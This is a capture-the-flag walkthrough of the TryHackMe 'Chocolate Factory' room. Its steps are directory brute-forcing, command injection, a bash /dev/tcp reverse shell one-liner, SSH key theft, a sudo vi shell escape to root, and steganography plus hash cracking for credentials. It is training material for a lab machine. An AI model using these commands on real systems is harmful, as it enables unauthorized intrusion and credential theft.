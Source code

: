 
## Description
This <a href="https://tryhackme.com/room/chocolatefactory">challenge</a> is provided by <a href="https://tryhackme.com">https://tryhackme.com</a>
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
 <ul>
<li><image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/></li>
</ul>
</p>
 
## Hands on 1

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

**"validate.php"** , look like input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  `uname -a` command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
```
 


remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as `www-data` !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , `key_rey_key` seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the `validate.php` code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  
Copy content of **teleport** and paste into your local empty file , in my case i saved it into `rsa_key` file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170350-b4bb4f80-ba95-11eb-8961-b6b012f61dca.png"/>
</p>

Remember to chmod 700 on the saved file 
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170563-006df900-ba96-11eb-9a69-0ce6ca76b099.png"/>
</p>

else you get error like this
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172491-9d319600-ba98-11eb-842f-6a0191b2e1e0.png"/>
</p>

After successfully login , you are now `charlie`
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172598-bd615500-ba98-11eb-9ae0-21a7e14e2af2.png"/>
 </p>
 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172772-ea156c80-ba98-11eb-9d69-1bde7535386f.png"/>

</p>
And we got the `user` flag !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173016-352f7f80-ba99-11eb-8cdd-19c7f06259af.png"/>
 </p>
 
 now the root flag ! 
 type  `sudo -l` to check sudo permission for charlie
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173732-3b722b80-ba9a-11eb-8dca-d8db75cd78e7.png"/>
</p>

by checking at <a href="https://gtfobins.github.io">GTFO bins</a> we found that vi can be exploited
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173881-6fe5e780-ba9a-11eb-9760-a12f4680167b.png"/>
 
 ```
 sudo vi -c ':!/bin/sh' /dev/null
 ```
</p>

We are now ROOT YEAH BOI and we found one python file (probably flag)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174264-f1d61080-ba9a-11eb-8277-ab7fb5d64380.png"/>
</p>

 Enter the key we found earlier and we got the flag !
  <p align="center">
 <image src="https://user-images.githubusercontent.com/78603128/119174570-51ccb700-ba9b-11eb-94de-4e24d661a787.png"/>
 </p>
   <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174584-56916b00-ba9b-11eb-83ee-b3ab5c78817f.png"/>
 </p>

## Hands on 2
Alternatively , to get charlie's password to log into the web browser we can use nmap/rustsan to scan for network open ports revealed the `` ftp service `` exists and contain one image (**gum_room.jpg**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174953-ce5f9580-ba9b-11eb-96fa-28042a4b4c6c.png"/>
</p>

we can login as ``Anonymous`` and get the image file
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175296-3ada9480-ba9c-11eb-973a-9963a924335d.png"/>
</p>

 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175751-d0762400-ba9c-11eb-8734-d6c744484b69.png"/>
</p>

look like ordinary picture but there can be something hidden inside pictures >:D (**Steganography**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176018-26e36280-ba9d-11eb-9392-fbed6f605106.png"/>
</p>

Using ``steghide`` we found a text file **(b64.txt)** with base 64 string 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176294-7f1a6480-ba9d-11eb-97b9-b88e506e0cef.png"/>
</p>

Decrypt it and we got all user leaked ``etc/passwd``
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176446-b557e400-ba9d-11eb-8263-1c8284cc46ac.png"/>
</p>
including charlie's
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176620-e801dc80-ba9d-11eb-9a52-35f06cef4585.png"/>
</p>

paste the hash into a empty file (in my case : charlieCreds) and put it at ``john the ripper`` and let john do the job !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176966-46c75600-ba9e-11eb-9f91-42445e2e2123.png"/>
</p>

then paste the pass and login charlie on the website
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119177393-da008b80-ba9e-11eb-9567-da6126fd8d24.png"/>
</p>












